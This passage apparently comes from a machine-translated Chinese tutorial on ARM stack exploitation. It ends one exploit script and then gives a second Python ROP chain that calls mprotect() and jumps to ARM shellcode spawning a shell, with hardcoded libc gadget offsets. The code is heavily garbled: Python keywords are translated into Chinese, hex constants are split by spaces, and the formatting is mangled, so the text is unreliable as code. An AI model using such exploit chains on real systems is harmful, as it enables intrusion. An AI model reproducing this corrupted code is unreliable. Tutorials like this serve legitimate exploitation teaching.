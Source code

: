 > exp+= struct . pack("<I "，0x befff 1 f 4)#漏洞利用开始
> exp += "A" * 24 【T45*
> 
> *打印(出口)*

*这是最终的漏洞脚本。让我们在 gdb 之外运行这个(禁用 aslr)*

*![](img/58da58448e78687da47cd337336670a5.png)*

*最后，我们得到了我们的壳！！！！！！！*

*好了，帖子到此结束。我希望您对调用 mprotect 有所了解。为了在这方面做得更好，您应该尝试找到您的小工具并实现您的想法来做一些事情，如调用 mprotect()或简单的 rop 链等。*

*调用 mprotect()的 rop 链的另一个示例*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base _ libc = 0xb6e 74000
> 
> shellcode = " \ x01 \ x30 \ x8f \ xe2 \ x13 \ xff \ x2f \ xe1 \ x02 \ xa0 \ x49 \ x40 \ x52 \ x40 \ xc2 \ x71 \ x0b \ x27 \ x01 \ xdf \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x78 "
> nops = " \ xe1 \ xa0 \ X10 \ x01 " * 1*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)
> exp+= struct . pack("<I "，base_libc+0x00019270) #pop {r3，PC }；r3= 0x0007a12c: pop {r0，r4，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0007 a12c)# R3
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；
> exp+= " AAAA "
> exp+= struct . pack("<I "，base_libc+0x000d9ef0) #mov r2，r0；mov r0，R6；blx r3
> exp += struct.pack(" < I "，0x bef def 80)# r0
> exp+= " BBBB "
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+= " BBBB "
> exp+= struct . pack("<I "，base _ libc+0x 0003 b5 D8)# 0x 0003 b5 D8:pop { lr }；加 sp，sp，# 4；bx lr
> exp += struct.pack(" < I "，base_libc+0x00019270) #pop {r3，PC }
> exp+= " BBBBBBBB "
> exp+= struct . pack("<I "，0x b 6 f 41 e 90)# mprotect
> exp+= " BBBB "
> exp+= struct . pack("<I "，0x beff 1d 4)#外壳代码开始
> exp +=*
> 
> *打印(出口)*

*这不是干净的第一个，但仍然有效:P*
